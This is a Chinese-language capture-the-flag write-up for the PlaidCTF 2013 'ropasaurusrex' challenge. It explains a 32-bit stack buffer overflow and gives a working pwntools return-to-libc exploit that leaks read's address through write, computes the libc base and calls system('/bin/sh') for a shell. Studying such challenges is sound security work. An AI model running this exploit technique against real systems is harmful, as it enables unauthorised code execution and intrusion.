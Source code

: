 ```yaml
---
title: PlaidCTF-2013-ropasaurusrex
date: 2018-03-17 20:36:41
draft: false
---
```

分析：  
buf大小只有0x88,但是却允许被读入0x100的字节大小，造成缓冲区溢出。程序是32位。  
定义函数：ssize_t write (int fd, const void * buf, size_t count);   
函数说明：write()会把参数buf 所指的内存写入count 个字节到参数fd 所指的文件内. 当然, 文件读写位置也会随之移动.  

攻击思路：   
1.构造 payload leak 内存中的一个函数地址，比如 read ，write（返回地址是有漏洞的函数，以便第二次利用）
2.计算libc base，得到 system 地址
3.构造payload get shell


info leak:  
payload：  
`'A' * N + p32(write_plt) + p32(ret) + p32(1) + p32(address) + p32(4)`  
输入N个字符后发生溢出，write_plt的地址将会覆盖 read 函数的返回地址，随后程序将会跳转到write函数，我们在栈中构造了write函数的3个参数和返回地址，这段payload相当于让程序执行
`write(1, address, 4)`;   
这样就可以dump出内存中地址为address处的4字节数据。 (参考：[初探ROP攻击 Memory Leak & DynELF](http://blog.csdn.net/smalosnail/article/details/53386353))
```
from pwn import *
elf = ELF('./ropasaurusrex')
io = process('./ropasaurusrex')
libc = ELF('/lib/i386-linux-gnu/libc.so.6') #原本写的 ./libc.so.6 出错了
buf_len = 0x88  
vun_fun = 0x80483F4   #存在漏洞函数的地址
read_offset = libc.symbols['read']
#leak info 
payload = 'a'*140+p32(elf.symbols['write'])+p32(vun_fun)+p32(1)+p32(elf.got['read'])+p32(4)
io.send(payload)
msg = io.recv(4)
read_addr = u32(msg)

#get shell
libc_base = read_addr-read_offset
sys_addr = libc_base+libc.symbols['system']
bin_addr = libc_base+next(libc.search('/bin/sh'))
payload = 'a'*140+p32(sys_addr)+p32(0xdeafbeef)+p32(bin_addr)

io.send(payload)
io.interactive()
```
